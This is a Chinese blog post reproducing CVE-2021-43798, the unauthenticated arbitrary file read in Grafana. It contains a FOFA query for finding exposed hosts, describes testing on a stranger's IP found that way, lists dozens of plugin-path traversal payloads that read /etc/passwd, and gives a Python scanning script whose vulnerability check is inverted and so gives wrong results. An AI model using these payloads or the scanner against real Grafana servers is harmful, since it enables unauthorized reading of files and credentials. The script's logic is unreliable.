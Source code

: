 ```yaml
---
title: CVE-2021-43798（Grafana 未授权任意文件读取漏洞）
comments: true
date: 2022-01-18 23:21:08
tags: ["Grafana", "漏洞复现"]
categories:
- 渗透测试
cover: http://image.xpshuai.cn/img/image-20220118233456399.png
top_img:
description:
---
```




## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。



## 影响范围

经测试，目前最新版本（Grafana v8.2.6）仍存在漏洞。





## 漏洞成因

主要是插件原因，查看代码是插件目录直接和requestedFile进行合并，没有进行过滤

参考这篇文章：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 漏洞复现

### FOFA 查询

```bash
app="Grafana" && country="CN" && body="v8."
```

在fofa上面找的一个ip进行测试，只需要简单抓包，将路径改掉，就可以读取文件内容：

![](http://image.xpshuai.cn/img/image-20220118233442024.png)

### Fuzz些插件列表

```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```



```
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
text
```



### 脚本

```python
import requests
import sys
 
args = str(sys.argv[1])

headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
}

with open("./paload.txt", "r+") as f:	# paload存放的插件名
    for line in f:
        url = "http://"+args+"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"

        req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
        a=req.text
        str1='root'
        if a in str1:
            print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
            print(url)
        else:
            print('不存在漏洞!')
```

脚本改进：多线程+批量url检测



## 漏洞分析

暂未进行

参考：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 修复建议

请关注厂商主页更新：[Grafana: The open observability platform | Grafana Labs](https://grafana.com/)

临时修复建议：

1、通过防火墙等安全设备设置访问策略，设置白名单访问。

2、如非必要，禁止公网访问该系统。
